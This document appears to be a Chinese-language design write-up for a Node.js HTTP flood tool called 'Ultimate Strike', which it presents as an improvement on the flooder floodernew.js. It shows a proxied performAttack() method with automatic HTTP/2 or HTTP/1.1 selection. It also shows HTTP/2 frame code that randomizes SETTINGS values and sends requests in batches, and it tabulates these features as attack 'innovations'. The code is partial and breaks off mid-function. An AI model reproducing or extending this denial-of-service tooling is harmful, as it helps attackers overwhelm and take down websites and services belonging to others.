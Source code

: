 **我的解决方案**：
```javascript
async performAttack() {
    const tlsSocket = tls.connect({
        ALPNProtocols: ['h2', 'http/1.1'],  // 协议协商
        // ...
    }, () => {
        if (tlsSocket.alpnProtocol === 'h2') {
            // 自动使用HTTP/2
            this.handleHTTP2(tlsSocket, proxy);
        } else {
            // 降级到HTTP/1.1
            this.handleHTTP1(tlsSocket, proxy);
        }
    });
}
```

**优势**：
- ✅ 完全自动化，无需配置
- ✅ 最大化兼容性
- ✅ 自动选择最优协议
- ✅ 两种协议都有完整实现

---

### 创新点 4: 高级HTTP/2实现

**对比floodernew.js的改进**：

| 特性 | floodernew.js | Ultimate Strike | 改进 |
|------|--------------|----------------|------|
| Settings 动态化 | ✅ | ✅ (更智能) | 增加随机范围 |
| Stream复用 | ✅ | ✅ | 优化ID管理 |
| Window Update | ✅ | ✅ | 动态计算 |
| 错误处理 | 基础 | 高级 | 分类处理 |
| 代码结构 | 过程式 | OOP | 更易维护 |

**核心HTTP/2代码**：
```javascript
async handleHTTP2(tlsSocket, proxy) {
    const hpack = new HPACK();
    
    // 动态Settings（基于floodernew.js优化）
    const settings = [
        [1, CONFIG.h2Settings.headerTableSize + this.randomInt(-100, 100)],
        [2, 0], 
        [3, CONFIG.h2Settings.maxConcurrentStreams],
        [4, CONFIG.h2Settings.initialWindowSize + this.randomInt(-1000, 1000)],
        [6, CONFIG.h2Settings.maxHeaderListSize]
    ];
    
    // 发送 PREFACE + SETTINGS + WINDOW_UPDATE
    tlsSocket.write(Buffer.concat(initialFrames));
    
    // 智能Frame处理
    tlsSocket.on('data', (chunk) => {
        // 完整的frame解析和响应
        // 记录状态码
        // 处理GOAWAY/RST_STREAM
    });
    
    // 批量发送请求
```